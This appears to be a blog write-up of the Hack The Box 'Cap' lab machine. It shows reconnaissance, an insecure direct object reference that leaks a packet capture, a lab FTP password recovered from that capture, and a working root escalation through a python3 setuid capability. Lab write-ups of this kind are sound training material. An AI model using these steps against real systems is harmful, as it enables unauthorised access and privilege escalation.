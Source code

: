 ```yaml
---
title: HTB - Cap
published: 2024-09-05
description: ''
image: './captin.png'
tags: [pcap,capabilities]
category: ''
draft: false 
---
```



# Cap 
___
_Diffeculty: EASY_</br>
___

+ kick starting with nmap we can find that the open ports are `21 22 80 `
+ noting unusal , testing ftp with anonymous login failed .
+ let's navigate to the main the website we find that the we are logged in by default as the user nathan and we have a few interesting options in a drop down menu.


![overflow](./image.png)

+ you can go check them all , `IP config ` contains the output of ipconfig command , `network status` contains that od netstat this is interesting but not really helpfull as we can't manipulate that in any form .
+ the last option left is `security snapchot pcap...` ok , going there we can see 

![/data/2](./image2.png)

+ intereting it looks like some packet capture functionality , but we can see we got 0 packets , and if you click download you can see that the pcap also contains 0 packets , the only left option for us is to maybe fuzz the url `/data/1` trying `/data/0` we get new value like this :
```
Data Type
	Value
Number of Packets
	72
Number of IP Packets
	69
Number of TCP Packets
	69
Number of UDP Packets
	0
```

+ nice now let's download this and see if we can find anything usefull , once downloaded you can open the file with wireshark or tshark 

+ using tshark you can see the content of the pcap with `tshark -r file.pcap`
+ looking around i found the creds for nathan 
```shell
╭─kali at kali in ~/CTF/HTB/cap
╰─○ tshark -r 0.pcap | grep FTP
   34   2.626895 192.168.196.16 → 192.168.196.1 FTP 76 Response: 220 (vsFTPd 3.0.3)
   36   4.126500 192.168.196.1 → 192.168.196.16 FTP 69 Request: USER nathan
   38   4.126630 192.168.196.16 → 192.168.196.1 FTP 90 Response: 331 Please specify the password.
   40   5.424998 192.168.196.1 → 192.168.196.16 FTP 78 Request: PASS Buck3tH4TF0RM3!
   42   5.432387 192.168.196.16 → 192.168.196.1 FTP 79 Response: 230 Login successful.
```
+ now let's log in and get the user flag.

+ next we need to become ROOT, to do so we need to get more informations about the machine , so get your linpeas.sh to the machine with python3 http.server or any  other method .

+ scrolling linpeas output you can see this line flaged with orange 

```shell
Files with capabilities (limited to 50):
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
```
+ it looks like python has some strong capailities 'cap_setuid' which is capable to change the user uid for example to root
+ if you look it up on GTFOBins search for python and goo down to capabilites section all the way down , you'll find the line that will get us root,executing that:

```shell
nathan@cap:/tmp$ python3 -c 'import os; os.setuid(0); os.system("/bin/sh")'
# whoami
root
```
we goot roooot.

And that's pretty much it hope you enjoyed.
